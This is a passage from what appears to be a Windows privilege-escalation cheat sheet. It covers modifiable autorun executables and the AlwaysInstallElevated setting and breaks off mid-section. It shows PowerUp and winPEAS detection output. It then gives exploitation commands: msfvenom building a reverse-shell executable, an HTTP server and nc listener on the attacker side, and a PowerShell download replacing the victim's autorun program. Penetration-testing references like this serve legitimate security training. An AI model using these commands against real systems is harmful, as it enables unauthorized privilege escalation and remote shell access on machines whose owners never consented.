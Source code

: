 #### Autorun

##### Detection

```
powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"

[*] Checking for modifiable registry autoruns and configs...

Key            : HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\My Program
Path           : "C:\Program Files\Autorun Program\program.exe"
ModifiableFile : @{Permissions=System.Object[]; ModifiablePath=C:\Program Files\Autorun Program\program.exe; IdentityReference=Everyone}
```

or

```
winPEAS.exe

[+] Autorun Applications(T1010)
    Folder: C:\Program Files\Autorun Program
    File: C:\Program Files\Autorun Program\program.exe
    FilePerms: Everyone [AllAccess]
```

##### Exploitation

```
# Attacker
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > program.exe
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>

# Victim
cd C:\Program Files\Autorun Program\
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/program.exe', '.\program.exe')

To execute it with elevated privileges we need to wait for someone in the Admin group to login.
```

#### AlwaysInstallElevated

##### Detection

```
powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"

[*] Checking for AlwaysInstallElevated registry key...

AbuseFunction : Write-UserAddMSI
```

or
